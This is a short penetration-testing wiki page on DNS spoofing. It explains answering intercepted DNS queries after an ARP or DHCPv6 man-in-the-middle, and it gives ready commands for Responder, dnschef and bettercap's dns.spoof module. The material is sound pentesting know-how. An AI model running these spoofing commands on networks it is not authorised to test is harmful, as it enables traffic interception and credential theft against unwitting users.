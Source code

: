 # DNS spoofing

## Theory

DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-dns-poisoning.md). DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

## Practice

{% tabs %}
{% tab title="Responder" %}
[Responder](https://github.com/SpiderLabs/Responder)'s \(Python\) DNS server feature can be used to answer DNS queries.

```bash
responder --interface eth0 
```
{% endtab %}

{% tab title="dnschef" %}
[dnschef](https://github.com/iphelix/dnschef) \(Python\) can be used as a DNS server. 

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```
{% endtab %}

{% tab title="bettercap" %}
In order to spoof DNS requests, [bettercap](https://www.bettercap.org/) \(Go\) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-dns-poisoning.md). 

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/" %}

